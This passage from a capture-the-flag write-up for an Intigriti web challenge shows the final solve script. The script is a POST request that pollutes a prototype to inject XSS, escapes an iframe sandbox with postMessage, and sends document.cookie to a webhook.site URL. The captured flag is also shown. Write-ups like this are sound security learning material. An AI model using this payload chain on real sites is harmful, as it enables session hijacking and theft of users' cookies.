 ### Final Payload
This is where I combined the two different XSS sink. The underlying idea is that because there was an event listener for the `message` event in the top level window, we could inject an XSS payload inside the iframe sandbox which used `postMessage` to send a secondary XSS payload to the top level window which would then steal the flag. From the challenge description, we knew that flag was in the chatbot's cookies so we could steal the flag using JavaScript. My final solve script is shown below.

```javascript
fetch("https://workbreak-1.ctf.intigriti.io/api/user/settings", {
  "headers": {
    "content-type": "application/json",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"name\":\"Benson Liu\",\"phone\":\"9999999999\",\"position\":\"aaaa\", \"__proto__\": {\"tasks\": [{\"date\": \"2024-11-17\", \"tasksCompleted\": \"<img src=x onerror='window.parent.postMessage({totalTasks:\\\"<img src=x onerror=fetch(`https://webhook.site/ef25b9e8-724d-4f5f-bd4a-c8ce77dde46e?q=`+document.cookie) />\\\"},\\\"*\\\")' />\"}]}}",
  "method": "POST",
  "credentials": "include"
});
```

Here is the contents of the request JSON body beautified a bit for easier reading.

```json
{
    "name": "Benson Liu",
    "phone": "9999999999",
    "position": "aaaa",
    "__proto__": {
        "tasks": [{
                    "date": "2024-11-17",
                    "tasksCompleted":
                        "<img src=x onerror='
                            window.parent.postMessage(
                                {
                                    totalTasks: \"<img src=x onerror=fetch(`https://webhook.site/ef25b9e8-724d-4f5f-bd4a-c8ce77dde46e?q=`+document.cookie) />\"
                                },
                            \"*\")
                        ' />"
                }]
    }
}
```

I was able to receive the flag on my webhook site: `SID=INTIGRITI{5up3r_u53r_535510n}`. Overall, this challenge was an interesting combination of prototype pollution and using `postMessage` to escape an iframe sandbox.
